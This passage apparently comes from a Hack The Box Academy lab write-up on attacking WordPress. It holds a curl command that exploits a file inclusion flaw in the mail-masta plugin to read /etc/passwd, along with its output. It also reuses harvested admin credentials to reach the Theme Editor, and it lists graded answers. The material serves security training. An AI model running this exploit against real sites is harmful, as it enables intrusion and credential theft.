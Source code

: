 Answer: `jessica1`

# Attacking WordPress

## Question 3

### "Using the methods shown in this section, find another system user whose login shell is set to /bin/bash."

From the previously attained enumeration output produced by `WPScan`, students will know that the plugin `mail-masta` is being utilized by the web application, thus, they need to exploit its vulnerability which allows discovering the underlying OS's environment variables:

Code: shell

```shell
curl -s blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd | grep "/bin/bash"
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd | grep "/bin/bash"

root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
webadmin:x:1001:1001::/home/webadmin:/bin/bash
```

The other system user whose login shell is set to `/bin/bash` is `webadmin`.

Answer: `webadmin`

# Attacking WordPress

## Question 4

### "Following the steps in the section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot."

Students first need to navigate to `http://blog.inlanefreight.local/wp-login.php` and use the previously harvested credentials `doug:jessica1` to login:

![[HTB Solutions/CPTS/z. images/88dfb474d4da1a3c08ec8c68762f51a4_MD5.jpg]]

Once inside the admin panel, students need to click on "Appearance -> Theme Editor":

![[HTB Solutions/CPTS/z. images/ef763106d8cee7e235c84fed8b566bf0_MD5.jpg]]
